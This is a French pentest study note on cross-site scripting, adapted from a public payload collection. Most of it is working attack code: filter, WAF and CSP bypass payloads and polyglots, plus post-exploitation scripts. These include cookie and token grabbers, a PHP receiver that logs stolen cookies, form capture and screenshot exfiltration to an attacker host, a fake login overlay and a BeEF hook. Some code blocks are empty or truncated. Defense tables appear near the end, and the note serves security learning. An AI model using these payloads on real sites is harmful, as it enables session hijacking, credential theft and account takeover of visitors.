

# XSS — Cross-Site Scripting

> [!info] **En 1 phrase**
> XSS = injecter du **JavaScript** dans une page vue par d'autres visiteurs → exécution dans leur
> navigateur (vol de session, keylogging, actions à la place de la victime, prise de compte admin).
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Le serveur renvoie l'entrée utilisateur **sans échappement contextuel** : le navigateur interprète
> `<script>…</script>` ou un attribut `onerror=…` comme du **code**, pas comme du texte.
> Ce n'est pas l'application qui est compromise mais le **navigateur** de chaque victime qui visite
> la page.

---

## Les 3 types d'XSS

| Type | Flux | Portée | Détection |
|---|---|---|---|
| **Réfléchi** | Le payload est dans la **requête** (URL, paramètre) et renvoyé tel quel dans la réponse | Instantané, dépend du clic sur un lien piégé | Facile en test (echo visible dans la réponse) |
| **Stocké (persistant)** | Le payload est **persisté en BDD** (commentaire, profil, ticket…) et servi à chaque visiteur | Dure dans le temps, frappe tous les utilisateurs **y compris l'admin** | Le plus critique : 1 injection → infection de masse |
| **DOM** | Le payload est traité **uniquement en JS côté client**, jamais envoyé au serveur | Local au navigateur de la victime | Difficile : rien dans la réponse HTTP |

> [!warning] **Hiérarchie d'impact** : stocké > réfléchi > DOM en général, mais un DOM XSS sur
> une SPA moderne (token dans `localStorage`) peut être tout aussi critique.

---

## Contextes de sortie

Le payload exact dépend de l'**endroit précis** où l'entrée est réinjectée :

| Contexte | Exemple de sortie | Payload type |
|---|---|---|
| **Contenu HTML** | `<p>ENTREE</p>` | `<script>alert(1)</script>` |
| **Attribut HTML** (entre `"`) | `` | `">` |
| **String JS** | `var x = "ENTREE";` | `";alert(1);//` |
| **URL / attribut** `href`/`src` | `<a href="ENTREE">` | `javascript:alert(1)` |

> [!tip] **Séquencer le payload en 2 temps** : d'abord **sortir** du contexte (`">` ou `';`),
> puis **injecter** un vecteur complet. `">` couvre la sortie
> d'un attribut ET l'injection d'une balise en une seule fois.

---

## Vecteurs classiques (XSS in HTML)

### Balise `<script>`

```html
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
<script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

> [!tip] `8680439..toString(30)` = `"confirm"` (`parseInt("confirm",30)` == 8680439) :
> astuce pour bypasser un filtre sur les noms de fonctions.

### ``

```html


">
<>
```

### `<svg/onload=…>`

```html
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;
```

> [!tip] `<svg><script href=data:,alert(1)/>` : **Firefox** est le seul navigateur qui autorise
> un `<script>` auto-fermant. `alert&lpar;'33'&rpar;` : les entités HTML `&lpar;`/`&rpar;` sont
> décodées **avant** le parsing JS → bypass de filtres sur les parenthèses.

### Événements pointer / souris

```html
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### `<iframe>` / srcset / srcdoc

```html
<iframe src="javascript:alert(1)"></iframe>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
<iframe onload=alert(1)></iframe>


```

### Balises exotiques (HTML5)

```html
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>
<math href="javascript:alert(1)">CLICKME</math>
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">
```

> [!tip] Événements **tactiles** (mobile) : `<body ontouchstart=alert(1)>` ·
> `<body ontouchend=alert(1)>` · `<body ontouchmove=alert(1)>`.

### Input cachés

```html
<input type="hidden" accesskey="X" onclick="alert(1)">
<input type="hidden" oncontentvisibilityautostatechange="alert(1)" style="content-visibility:auto">
```

> [!tip] `<input type="hidden" accesskey="X" onclick="alert(1)">` se déclenche avec
> **CTRL+SHIFT+X**. `oncontentvisibilityautostatechange` fonctionne sur les navigateurs récents
> (Firefox 130 / Chrome 108+).

### XSS par JS distant

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
```

> [!tip] `14.rs` permet de préciser un payload arbitraire : `14.rs/#alert(document.domain)`.

### Sortie en MAJUSCULES

```html

```

> [!tip] Quand la sortie est mise en majuscules : les noms d'attributs HTML sont insensibles à
> la casse mais le code JS **ne l'est pas** — il suffit d'encoder `alert` en entités hexadécimales
> `&#X61;` (a) `&#X6C;` (l)…

### Contexte JS direct

```js
-(confirm)(document.domain)//
; alert(1);//
```

> [!tip] `-(confirm)(document.domain)//` : payload **sans quote ni double-quote**
> (de @brutelogic), utile quand `'` et `"` sont filtrés.

---

## XSS par URI (wrappers)

### Wrapper `javascript:`

```js
javascript:prompt(1)
```

Entités HTML pour encoder tout le payload :

```js
%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341
&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41
```

Encodage hex / octal / unicode du mot-clé `javascript:` :

```js
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
```

Caractères de contrôle dans le mot-clé :

```js
java%0ascript:alert(1)   // LF (\n)
java%09script:alert(1)   // Tabulation horizontale (\t)
java%0dscript:alert(1)   // CR (\r)
```

Caractère d'échappement `\` et commentaires `//` :

```js
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

> [!warning] `javascript:` est exploitable partout où une URL est attendue : attributs
> `href`/`src`/`action`, **redirections** (`?next=javascript:alert(1)`), `window.location`, et
> même en contexte DOM sink.

### Wrapper `data:`

```js
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper `vbscript:` (IE uniquement)

```js
vbscript:msgbox("XSS")
```

---

## XSS dans les fichiers

### XML

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

> [!tip] La section **CDATA** empêche le parser XML de traiter le payload comme du markup.

XSS via namespace custom (emprunt du namespace XHTML) :

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

Versions courtes :

```js
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

> [!tip] **Nesting SVG** : inclure une image SVG distante (`<image xlink:href=…>`) ou un
> fragment (`<use xlink:href="…#id">`) **ne déclenche pas** l'XSS du SVG distant. En revanche,
> imbriquer des balises `<svg>` dans un document SVG **permet** l'exécution depuis les sous-SVG
> (ex: 2 sous-SVG avec `<rect>` + `<script>`).

### Markdown

```md
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

> [!tip] Rendu Markdown → HTML : les liens `javascript:` (avec espaces insérées dans le mot-clé
> pour bypasser les filtres) sont une source classique de XSS **stocké** (wikis, commentaires, docs).

### CSS

```html
<style>
div {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
```

> [!warning] `<\/style>` ferme la balise `<style>` depuis une **string CSS**, puis
> `<svg/onload>` s'exécute. Un filtre anti-XSS qui ne regarde que du CSS « pur » rate ce vecteur.

---

## Bypass de filtres & polyglots

### Tags malformés

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

> [!tip] Si le filtre supprime `<script>` **sans boucler**, `<scr<script>ipt>` devient
> `<script>` après suppression du mot-clé central. Teste toujours le **même** filtre plusieurs fois.

### Polyglot universel

> Polyglot = payload valide dans **plusieurs contextes à la fois** (contenu, attribut, string JS,
> URL…). Exemples :

```html
">'"><svg/onload=alert(1)>javascript:alert(1)
```

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

> [!tip] Le 2e (polyglot de référence, « Ultimate XSS Polyglot ») combine commentaires JS,
> gestionnaires d'événements, entités et balises mutées pour survivre à la plupart des sanitizers.

### Encodages multiples (HTML / URL / hex / octal / Unicode)

```js
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<svg><script>alert&lpar;'33'&rpar;</script>

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

> [!tip] Écrire un même mot-clé sous plusieurs encodages augmente les chances : `alert` →
> `\u0061lert`, `\x61lert`, `String.fromCharCode(97,108,101,114,116)`, entités `&#x61;lert`,
> entités décimales, base64… **Toujours tester aussi le double-encodage URL** (`%253C` → `%3C`
> après 1 décodage serveur).

### Casse aléatoire & commentaires

```html

<!-- --><script>alert(1)</script><!-- -->
```

### Contourner le filtrage de mots-clés

```js
eval('a'+'lert(1)')
eval(atob('YWxlcnQoMSk='))
eval(8680439..toString(30))(983801..toString(36))
this['alert'](1)
window['\x61lert'](1)
```

> [!tip] Alterner entités HTML / hex / unicode / base64 selon le WAF : un même vecteur existe
> en une dizaine de variantes, il faut toutes les essayer.

---

## DOM XSS

Le payload n'est **jamais envoyé au serveur** : il vit dans l'URL (hash) ou une source client.

### Sources (entrées côté client)

```js
document.location / location.href
location.hash / location.search
document.URL / document.baseURI
document.referrer
window.name
message   // événements postMessage
```

### Sinks (sorties exécutables)

```js
document.write()               document.writeln()
element.innerHTML              element.outerHTML
element.insertAdjacentHTML()
eval()                         setTimeout()  setInterval()  new Function()
element.src  location  window.open()  document.location =
jQuery .html()  .append()  .attr()
```

> [!warning] `setTimeout("PAYLOAD", 1)` / `setInterval` passés en **string** agissent comme
> `eval()`. `innerHTML` **n'exécute pas** les `<script>` mais exécute les **attributs onerror**
> (`` = voie royale).

### Payloads DOM

```js
#">
javascript:alert(document.domain)
'"><svg/onload=alert(1)>
```

> [!tip] `location.hash` est la source la plus pratique : `/#">`
> pas de ré-encodage serveur, idéal en aveugle sur les SPAs.

### postMessage (sink DOM)

> Si la cible ne vérifie pas `event.origin` (ou accepte `*`), **n'importe quel site** peut lui
> envoyer des messages — vecteur classique (postMessage XSS sur des millions de sites).

```html
<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://10.10.10.10/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
```

---

## Blind XSS

XSS **stocké qui se déclenche ailleurs** (backend, admin, support) — on ne voit jamais la victime.

### Payloads blind (canaux de callback)

```html
"><script src="https://js.rip/[ATTACKER.DOMAIN.TLD]"></script>
"><script src=//[ATTACKER.DOMAIN.TLD]></script>
<script>$.getScript("//[ATTACKER.DOMAIN.TLD]")</script>
<script>document.location='http://[ATTACKER.DOMAIN.TLD]/grab?c='+document.domain</script>
```

### Endpoints blind classiques

| Endpoint | Victime probable |
|---|---|
| Formulaire de contact | Admin / support qui lit les messages |
| Champ « sujet » / « nom » des tickets | Support / admin |
| **Header Referer / User-Agent** | Analytics custom + **logs admin** |
| Boîte de commentaires | Back-office admin |
| Nom d'utilisateur au signup | Admin (liste des users) |

> [!tip] Avant de déployer un outil lourd : un **grabber one-liner** + un serveur HTTP
> suffisent à confirmer un blind XSS :
> ```ps1
> ruby -run -ehttpd . -p8080
> ```

### Plateformes & outils blind

| Outil | Usage |
|---|---|
| **XSS Hunter** (xsshunter.trufflesecurity.com, ex-xsshunter.com) | Probes hébergées qui scannent la page et renvoient les données |
| **xsshunter-express** (mandatoryprogrammer) | Version self-hosted |
| **ezXSS** (ssl) | Framework de test (blind) XSS |
| **sleepy-puppy** (Netflix-Skunkworks) | Gestion de payloads blind XSS |
| **bXSS** (LewisArdern) | Détection de blind XSS |

---

## Exfiltration & Post-exploitation

### Data grabber (cookie / token)

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Grabber côté attaquant (PHP) :

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

> [!warning] `document.cookie` ne renvoie **rien** pour les cookies marqués **HttpOnly**.
> Dans ce cas : vole `localStorage`/`sessionStorage`, capture les formulaires, keylogging, ou
> utilise le navigateur de la victime pour agir (CSRF à sa place).

### Exfiltration CORS / fetch (webhook)

```html
<script>
fetch('https://[ATTACKER.DOMAIN.TLD]', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

### Keylogger JS

```html

```

### Capture de formulaires

```js
document.addEventListener('submit', function(e){
  var f = e.target;
  fetch('http://[ATTACKER]/?data=' + new URLSearchParams(new FormData(f)).toString());
});
```

### UI Redressing (fausse page de login)

```js
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
```

### Screenshot via Canvas

```js
var c=document.createElement('canvas');
c.width=screen.width; c.height=screen.height;
c.getContext('2d').drawImage(document.body,0,0);
new Image().src='http://[ATTACKER]/?d='+c.toDataURL('image/png');
```

### Autres exfiltrations

> Voir http://www.xss-payloads.com/payloads-list.html : port scanner JS, network scanner
> (WebSocket), exécution .NET, redirect form, screenshot… Une fois hooké on peut aussi scanner le
> réseau interne de la victime.

### BeEF (Browser Exploitation Framework)

```html
<script src="http://[ATTACKER]:3000/hook.js"></script>
```

> [!tip] Navigateur « hooked » (BeEF ou XSS Hunter) → pilotage complet : keylogging, vol de
> formulaires, redirections, exploitation de navigateur, port scan, vole d'onglets.

---

## CSP Bypass

> La CSP limite les sources de scripts, **mais** une CSP mal configurée se contourne de multiples
> façons.

| Fuite CSP | Technique |
|---|---|
| **JSONP** disponible | `<script src="/api/me?callback=alert"></script>` |
| **AngularJS** présent | `{{constructor.constructor('alert(1)')()}}` / `{{$on.constructor('alert(1)')()}}` |
| `unsafe-inline` | `javascript:` et attributs `on*` fonctionnent directement |
| `style-src` / `link rel=preload` | CSS injection + exfiltration : `background-image:url(…)`, `<link rel=preload href="//attacker/?…">` |
| **Dangling markup** | Capture du contenu suivant la faille (section dédiée) |
| `location` / `window.name` | Rediriger `location` vers un payload stocké dans `window.name` |
| **base tag** | `<base href="https://attacker/">` → ressources relatives servies par l'attaquant |
| Whitelist `script-src` trop large | CDN + librairies JSONP (angular, jquery…) |

```html
<!-- JSONP (fréquent sur les APIs) -->
<script src="/api/users?callback=alert"></script>
<!-- AngularJS expression -->
{{constructor.constructor('alert(document.domain)')()}}
<!-- base tag hijack -->
<base href="https://attacker.com/">
```

> [!warning] `<base>` a un **effet global** : tous les `src`/`href` relatifs de la page
> (scripts, images, fetch) pointent vers l'attaquant → exfiltration et exécution même avec une CSP
> stricte si les ressources relatives sont autorisées.

---

## Dangling Markup

> Dangling markup = injecter une balise **non fermée** pour capturer ce qui suit comme valeur
> d'attribut.

```html
"> [!warning] Pas de JS exécuté : fuite d'information **passive**. Mais elle permet de voler des
> tokens anti-CSRF quand `<script>` et `on*` sont filtrés.

---

## WAF Bypass

> Règle d'or : **le WAF n'est pas une défense**. Chaque règle (Cloudflare, ModSecurity, AWS WAF…)
> a une variante qui passe. Multiplier les encodages et les contextes.

| Règle WAF courante | Bypass |
|---|---|
| `<script` bloqué | ``, `<svg/onload=…>`, `<details/open/ontoggle=…>` |
| `alert` bloqué | `\u0061lert`, `\x61lert`, `String.fromCharCode`, `eval(8680439..toString(30))`, `alert&lpar;1&rpar;` |
| `javascript:` bloqué | `java%0ascript:`, `java%09script:`, `java%0dscript:`, hex/octal/unicode du mot-clé |
| `on*` bloqué | `<iframe srcdoc=…>`, `<a href=javascript:…>`, `<math href=javascript:…>`, `<meta http-equiv=refresh>` |
| Minuscules filtrées | `` (casse aléatoire) |
| Mots-clés supprimés sans boucle | `<scr<script>ipt>…` |
| URL-encoding simple bloqué | double encoding `%253C`, entités HTML `&#60;`, encodage Unicode |

> [!tip] **Multi-encodage** : chaque couche que le serveur décode est une chance de plus —
> `%253Cscript%253E` (double URL) ou mélange HTML+URL+hex dans le même payload.

### Contourner les WAF à signature (ModSecurity, Cloudflare)

> Bypass signature-based (PortSwigger) : modifier la structure du code JS (whitespace, concaténation,
> encodage, découpage de chaînes) pour ne plus matcher la regex.

```js
<svg/onload=alert(1)>                  // signature connue
<svg/onload="window['ale'+'rt'](1)">   // découpe le nom de fonction
```

---

## Tests & Outils

### Identifier / confirmer l'endpoint

> Un payload parfait pour remplacer `alert(1)` : affiche le **scope exact** d'exécution.

```js
<script>debugger;</script>
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

> [!tip] Sur les **domaines sandbox** (hébergement de contenu utilisateur), `alert(1)` peut
> s'exécuter dans un contexte sans données. `alert(document.domain)` / `alert(window.origin)`
> confirment si on est **dans le scope** ou non. Pour le stocké : `console.log` évite de fermer
> une popup à chaque refresh.

### curl

```bash
curl -s "http://target/search?q=<script>alert(1)</script>" | grep -i "alert"
curl -i "http://target/?next=javascript:alert(1)"
curl -s -X POST "http://target/comment" -d "name=&msg=test"   # stocké
```

### Liste de fuzzing (à rejouer partout)

```txt
<script>alert(1)</script>
"><script>alert(1)</script>
'">
<svg/onload=alert(1)>
"><svg/onload=alert(1)>

<details/open/ontoggle=alert(1)>
javascript:alert(1)
```

### Outils

| Outil | Type |
|---|---|
| **Dalfox** (hahwul) | Scanner XSS rapide (Go) : fuzzing de paramètres, blind |
| **XSStrike** (s0md3v) | Détection + bypass de filtres (peu maintenu) |
| **xsser** (epsylon) | Headless browser, auto-exploitation |
| **XSpear** (hahwul) | Like Dalfox en Ruby |
| **domdig** (fcavallarin) | Test de DOM XSS avec Chrome headless |
| **ezXSS / bXSS / sleepy-puppy** | Frameworks blind XSS |
| **Burp Suite** | Repeater / Intruder + fuzzing de payloads, extensions XSS |

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Échappement contextuel (OWASP)** | Échapper différemment selon le contexte : HTML (contenu), attribut, JS, URL, CSS — jamais un seul encodage « universel » |
| **Validation d'entrée** | Allowlist de caractères par type de champ, longueur, normalisation |
| **Sanitization** | Nettoyer le HTML riche avec un parseur réel (DOMPurify…) — attention **mXSS** |
| **CSP stricte** | `default-src 'none'` + `script-src` explicite, pas d'`unsafe-inline`, `object-src 'none'`, `base-uri 'none'`, `frame-ancestors` |
| **HttpOnly cookies** | Bloque `document.cookie` (ne protège pas localStorage / formulaires / keylogging) |
| **X-Content-Type-Options: nosniff** | Empêche le MIME sniffing (contenu `text/html` servi comme image/upload) |
| **Surveillance** | Logs des entrées anormales (`<script>`, `onerror=`, `javascript:`), corrélation accès admin |
| **CSP report-to / report-uri** | Collecter les violations CSP → détection des tentatives réelles |
| **Rendre le contenu inerte** | Désactiver le rendu HTML sur le texte simple (échappement systématique côté framework) |

---

## Tips & Pièges

> [!tip] **Le chemin le plus rentable**
> XSS **stocké** sur un espace que l'**admin** consulte (profils, tickets, commentaires, header
> User-Agent/Réferer dans les logs admin) → vol de sa session → **accès admin complet**. C'est
> l'enchaînement n°1 des bug bounties (Uber, eBay, Yahoo Mail, Facebook…).

> [!warning] **Preuve (alert) ≠ impact réel**
> Un XSS « alert(1) prouvé » avec **CSP stricte + HttpOnly** a un impact quasi nul. Documente
> toujours ce qu'on peut **réellement** faire : vol de token localStorage, capture de formulaire,
> actions à la place de la victime, pivot vers l'admin.

> [!warning] **Échappements faits maison**
> `.replace('<script>','')` sans boucle → `<<script>script>` ou `<scr<script>ipt>`. Un simple
> `htmlspecialchars()` sans contexte casse dès qu'on sort dans un attribut ou du JS. Toujours une
> librairie d'échappement contextuel éprouvée.

> [!warning] **Mutation XSS (mXSS)**
> Le navigateur **mute** (ré-écrit) le HTML avant exécution. Exemple (Kinugawa, contre DOMPurify
> sur Google Search) :
> ```html
> <noscript><p title="</noscript>">
> ```
> Le sanitizer voit du texte inoffensif, mais après mutation le `` est interprété.
> → **Tester les sanitizers dans le navigateur**, pas seulement dans un parser isolé.

> [!tip] **Penser post-mutation pour innerHTML**
> `innerHTML` ne stocke pas le HTML tel qu'on le passe : il est normalisé. Un payload valide en
> HTML parsé peut être invalide après ré-injection (mutation). Tester dans une vraie page.

> [!warning] **Self-XSS** : alerter sur sa propre session ne prouve rien pour une autre cible —
> sauf si on le transforme en XSS réel (lien piégé, race condition, sandbox).

> [!tip] **CSP stricte trouvée ?** Ne désespère pas : bypass possibles via JSONP, AngularJS,
> dangling markup, base tag, ou une ressource whitelistée mal choisie.

---

## Liens

- [[Injection SQL| SQLi]]
- [[Injection de commandes| Injection de commandes]]
- [[SSRF| SSRF]]
- [[Attaques JWT| Attaques JWT]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- Labs : [PortSwigger XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting) · [Root-Me XSS](https://www.root-me.org/?page=recherche&secteur=Web-Client)
